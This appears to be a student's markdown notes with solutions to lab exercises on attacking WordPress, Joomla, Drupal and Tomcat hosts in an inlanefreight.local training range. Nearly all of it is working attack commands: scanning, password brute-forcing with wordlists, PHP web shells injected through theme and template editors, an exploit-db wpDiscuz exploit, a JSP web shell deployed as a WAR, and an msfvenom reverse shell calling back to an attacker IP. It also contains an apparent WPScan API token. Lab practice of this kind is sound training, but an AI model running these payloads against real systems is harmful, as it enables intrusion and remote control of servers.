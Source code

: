 # Application Discovery & Enumeration

```bash

sudo  nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list 

sudo nmap --open -sV 10.129.201.50

eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness


```


# WordPress - Discovery & Enumeration

```bash

gobuster dir -u http://blog.inlanefreight.local/wp-content/  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

wget http://blog.inlanefreight.local/wp-content/uploads/2021/08/flag.txt


sudo wpscan --url http://blog.inlanefreight.local --enumerate

curl -s http://blog.inlanefreight.local/?p=1 | grep plugins

curl -s http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt

```


# Attacking WordPress

Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present? 

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate u  --api-token paYKDK1ev8wFy9mX5A5ppyHVkoM9WjPpIMPzItVjTFM

```

Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer. 

```bash
# login and go to http://blog.inlanefreight.local/wp-admin/theme-editor.php

sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /home/avataris12/CTF/CTF_2023/desconstru_ctf/Forensics/Hash_Roll/rockyou.txt --url http://blog.inlanefreight.local --api-token paYKDK1ev8wFy9mX5A5ppyHVkoM9WjPpIMPzItVjTFM

python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

Using the methods shown in this section, find another system user whose login shell is set to /bin/bash. 

```bash
# login and go to http://blog.inlanefreight.local/wp-admin/theme-editor.php
# go to http://blog.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen

system($_GET[0]); # update the the file

curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id


```

Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.

```bash

wget https://www.exploit-db.com/raw/49967

python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

curl -s http://blog.inlanefreight.local/wp-content/uploads/2024/06/lmjbsqrttfpevvk-1719495517.7316.php?cmd=cat%20/var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt

```

# Joomla - Discovery & Enumeration

Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x) 

```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://app.inlanefreight.local/


git clone https://github.com/drego85/JoomlaScan.git
python2.7 joomlascan.py -u http://app.inlanefreight.local

curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

```

Find the password for the admin user on http://app.inlanefreight.local 


```bash
git clone https://github.com/ajnik/joomla-bruteforce.git

sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin


```

# Attacking Joomla

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

```bash

#login user:password admin:admin

#go to files http://dev.inlanefreight.local/administrator/index.php?option=com_templates&view=template&id=506

system($_GET['cmd']); # add this to error.php 

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=ls%20/var/www/dev.inlanefreight.local

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=cat%20/var/www/dev.inlanefreight.local/flag_6470e394cab6a91682cc8585059b.txt

```

# Drupal - Discovery & Enumeration

Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local 

```bash

curl -s drupal-qa.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

droopescan scan drupal -u http://drupal.inlanefreight.local


```

# Attacking Drupal

Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory. 

```bash
# http://drupal-qa.inlanefreight.local/node/4
# text format php code
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

curl -s http://drupal-qa.inlanefreight.local/node/4?cmd=cat%20/var/www/drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt


```

# Tomcat - Discovery & Enumeration

What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180? 

```bash
curl -s http://web01.inlanefreight.local:8180/docs/ | grep Tomcat
```
# Attacking Tomcat

Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username? 
What is the password?

```bash

use scanner/http/tomcat_mgr_login


```


Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

zip -r backup.war cmd.jsp 

# go to war file to deploy browser the file

curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

nc -lnvp 4443

```
